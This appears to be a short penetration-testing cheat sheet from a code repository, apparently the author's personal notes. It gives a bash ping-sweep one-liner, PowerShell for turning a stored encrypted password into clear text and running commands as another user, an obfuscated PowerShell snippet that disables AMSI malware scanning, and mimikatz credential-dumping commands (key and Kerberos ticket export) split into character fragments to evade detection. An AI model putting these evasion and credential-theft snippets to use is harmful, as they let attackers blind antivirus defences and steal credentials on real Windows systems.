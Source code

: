 # ps
ps = ping sweep

just some note will add here
# 
```bash
for i in {1..255} ;do (ping -c 1 172.16.1.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done
```

#
convert encrypted powershell password into clear text:
```powershell
$pwd = ConvertTo-SecureString <encrypted text here>
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList "User",$pwd
$cred.GetNetworkCredential()
```
to Execute Command in powershell as another user without runasCs :
```powershell
invoke-command -Computername localhost -Credential $cred -ScriptBlock { whoami }
```
note: you might find yourself in more restriction for using invoke-command rather than RunasCs 


```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )



$j = “yS“
$i = “E“
$h = “k“
$g = “E“
$f = “::“
$e = “a“
$d = “lS“
$c = “r“
$b = “EKu“
$a = “s“
$Pwn = $a + $b + $c + $d + $e + $f + $g + $h + $i + $j

$cmd9 = "s" + "e" + "k" + "u" + "r" + "l" + "s" + "a" + "::" + "t" + "i" + "c" + "k" + "e" + "t" + "s" + " " + "/" + "e" + "x" + "p" + "o" + "r" + "t"
$cmd0 = '"k' + 'e' + 'r' + 'b' + 'e' + 'r' + 'o' + 's' + '::' + 'l' + 'i' + 's' + 't' + ' ' + '/' + 'e' + 'x' + 'p' + 'o' + 'r' + 't"'
```
